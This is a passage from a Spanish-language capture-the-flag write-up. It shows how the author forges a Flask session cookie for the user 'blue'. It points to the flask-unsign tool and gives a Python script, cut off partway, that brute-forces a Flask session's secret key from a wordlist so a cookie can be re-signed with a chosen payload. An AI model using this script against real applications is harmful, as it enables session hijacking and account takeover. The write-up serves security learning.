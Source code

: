 Con toda la información obtenida y sabiendo que tenemos el nombre de un usuario válido `blue`, solo tenemos que encontrar la correcta "secret key" para poder generar su respectiva cookie y obtener su sesión

## Foothold

* * *

Buscando en internet encotramos que existe una herramienta llamada `flask-unsign` que nos automatiza todo el proceso hallando la **secret key** y generando una nueva con el payload que especifiquemos

> Aquí puede encontrar la herramienta `flask-unsign`: [https://pypi.org/project/flask-unsign/](https://pypi.org/project/flask-unsign/)
{: .prompt-info}

Por gusto propio y a manera de aprender y entender cuál es el proceso para obtener esa preciada **secret key**, hice un scrip en `python` en el cuál le pasas la **cookie** y el **nuevo payload que deseas insertar** para que por **Brute force** consiga la **secret key** y la nueva cookie:

```python
import sys, signal, argparse, json, time, hashlib
from pwn import *
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature
from flask.json.tag import TaggedJSONSerializer

# ctrl + c
def signal_handler(signum, frame):
    log.failure("Interruption"); sys.exit()

signal.signal(signal.SIGINT, signal_handler)

# arguments
parser = argparse.ArgumentParser(description='Brute force attack "Secret key" of a Flask session cookie by default')
parser.add_argument('-cookie', type=str, required=True, help='session cookie to crack')
parser.add_argument('-payload', type=str, required=True, help="""new payload to create a valid session cookie ( '{"key":"value"}' )""")

args = parser.parse_args()

# create wordlist
def load_wordlist():
    with open('all.txt', 'r') as file:
        wordlist = file.readlines()
    return wordlist

# bruteforce cookie
def bruteforce_cookie(wordlist):
    p = log.progress('Starting Brute force attack')
    time.sleep(1)
    for secret in wordlist:
        secret = secret.strip('\n')
        p.status('{}'.format(secret))
        try:
            serializer = URLSafeTimedSerializer(
                        secret_key=secret,
                        salt='cookie-session',
                        serializer=TaggedJSONSerializer(),
                        signer=TimestampSigner,
                        signer_kwargs={
                                'key_derivation' : 'hmac',
                                'digest_method' : hashlib.sha1
                            }
                        ).loads(args.cookie)
            log.info('Payload : {}'.format(serializer))
```